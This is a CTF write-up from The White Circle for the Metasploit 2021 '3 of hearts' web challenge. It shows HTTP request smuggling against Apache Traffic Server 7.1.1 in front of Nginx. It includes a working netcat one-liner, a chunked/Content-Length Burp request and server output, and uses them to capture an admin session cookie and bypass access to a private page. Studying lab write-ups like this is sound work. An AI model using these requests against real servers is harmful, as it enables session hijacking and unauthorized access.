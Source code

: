 ```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | 3 of hearts Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: 3_of_hearts
challenge: 3 of hearts
tags: "web, starry, http request smuggling"
date: 2021-12-08T00:00:00+00:00
last_modified_at: 2021-12-08T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Metasploit 2021</h1>
## 3 of hearts

> Solved too late by : Starry-lord

```
Port 33337
```

I solved this one after the competition but still felt compelled to share the process.

This one gave me a hard time, firstly because I hadn't seen HTTP request smuggling scenarios before. 

Trying to connect to the target IP:33337 redirects to a domain name 

```
threeofhearts.ctf.net
```

And displays an empty page with only the following content:

```
<script>console.log(zp2)</script>
```

Some snooping showed me the initial request was made to an Apache traffic server 7.1.1 and the second one to an Nginx server 1.15.5. 
After a few research I realized there wasn't much resource on the subject, but here's what I found :

- PortSwigger Web academy
- https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f 
- https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/

Sadly no time for going through academy through the ctf but will definitely look into it in a nearby future. 

I used 2 ways to try and see what was going on :

### Way n°1 - CLI

```
printf 'GET_/somthingthatdoesntexist_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
```

So here we manage to get double request by adding 65534 empty spaces between 2 get requests. 

First one results in a 400 error and second request goes through and shows the content of the internal website. 

```
┌──(kali㉿kali)-[~/.starlord]
└─$ printf 'GET_/somethingNotThere_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/out/save.txt_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
HTTP/1.1 400 Invalid HTTP Request
Date: Sun, 05 Dec 2021 23:34:29 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request. 
</B></FONT>
<HR>
</BODY>
HTTP/1.1 200 OK
Server: ATS/7.1.1
Date: Sun, 05 Dec 2021 23:34:29 GMT
Content-Type: text/plain
Content-Length: 151
Last-Modified: Sun, 05 Dec 2021 23:08:15 GMT
ETag: "61ad465f-97"
X-Requested: /out/save.txt
Accept-Ranges: bytes
Age: 0
Connection: keep-alive

Params:
Headers:
        X-Access: 
        Cookie: 

Params:
        cache=0
Headers:
        X-Access: 
        Cookie: 

Params:
        var1=star
        var2=lord
Headers:
        X-Access: 
        Cookie: 

                                                                                
┌──(kali㉿kali)-[~/.starlord]
└─$ 
```

### WAY n°2 - BurpSuite

It also worked with just a 0 in between GET requests and would be easier to input to burpsuite. 

The website's content would only show itself in a browser if the request was intercepted and its “Host” header manually set to threeofhearts.ctf.net

From there I found a small page with a PHP form for var1 and var2. By pressing submit, a GET request would be sent to /save.php and populate an entry in the above queried file (/out/save.txt).

There was a /private.php we were denied access to, where the flag was clearly hidden. This is the point where I had most trouble trouble realizing what was going on. 

I knew we had to craft or find the right cookie to access the private.php but didn't understand the fundamental of the HTTP request smuggling attack.

Turns out when you manage to split the request successfully, the second one will be sent from the server, which means admin headers in /out/save.txt in this case.

This was the burp request :

```
GET / HTTP/1.1
Host: threeofhearts.ctf
Transfer-Encoding: chunked
Content-Length:53

0

GET /save.php?var1=something&var2=something HTTP/1.1
```

Then making a request to /out/save.txt showed the following :

```
Headers:
  X-Access: private
  Cookie: PHPSESSID=theAdminPhpSessionId
  
Params:
  var1=something
  var2=something
Headers:
  X-Access:
  Cookie:
```

visiting /private.php with those header gave the un-guessable page link for the flag.

![](https://i.imgur.com/VPSwASa.png)